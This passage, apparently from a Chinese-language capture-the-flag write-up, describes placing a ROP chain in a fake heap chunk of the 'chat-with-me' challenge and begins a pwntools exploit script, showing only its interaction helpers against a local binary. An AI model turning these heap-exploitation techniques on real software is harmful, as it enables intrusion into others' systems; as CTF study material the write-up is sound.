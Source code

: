 1. 在 delete 时输入一个长度为 0x3f0 大小的二进制数据，好让该数据分配到假 chunk，并且该数据为精心构造的 rop 链即可
   
在分配时需要注意调整 rop 链长度，避免进入 read_line 函数 utf-8 处理

### [](#header-3)EXP


```py
# by leeya_bug

from ast import literal_eval
from pwn import *
import time
import os

SLEEP_TIME = 0.2

context.os = 'linux'
#context.log_level = "debug"
x64_32 = True
context.arch = 'amd64' if x64_32 else 'i386'

p = process('./debug/chat-with-me')
#libc = ELF('/home/leeya_bug/桌面/glibc-all-in-one/libs/2.31-0ubuntu9.16_amd64/libc.so.6')

def debug(interact = True, query = ''):
	subprocess.Popen(["qterminal", "-e", f'''bash -c 'pwndbg -ex "set telescope-skip-repeating-val off" -ex "{query}" -p {p.pid}' '''])
	if interact: p.interactive()
	
def original_debug(interact = True):
	gdb.attach(p)
	if interact: p.interactive()
	
u64_ = lambda a: u64(a.ljust(8,b'\x00'))

# ------------- 基本配置 -------------

def add() -> None:
	p.sendlineafter(b'Choice >', b'1')

def show(index: int) -> None:
	p.sendlineafter(b'Choice >', b'2')
	p.sendlineafter(b'Index >', str(index).encode())
	p.recvuntil(b'Content:')
	return literal_eval(p.recvuntil(b']').decode())
	
def edit(index: int, memory: bytes) -> bytes:
	p.sendlineafter(b'Choice >', b'3')
	p.sendlineafter(b'Index >', str(index).encode())
	#debug(False)
	#time.sleep(5)
	p.sendlineafter(b'Content >', memory)
	p.recvuntil(b'Content: ')
	return literal_eval(p.recvuntil(b']').decode())

def delete(index: int) -> None:
	p.sendlineafter(b'Choice >', b'4')
	p.sendlineafter(b'Index >', str(index).encode())

# --------

def list2list_bytes(data: list) -> list:
	d1 = [ data[i: i + 8] for i in range(0, len(data), 8) ]
	return [ b''.join([ p8(i) for i in d2 ]) for d2 in d1 ]
```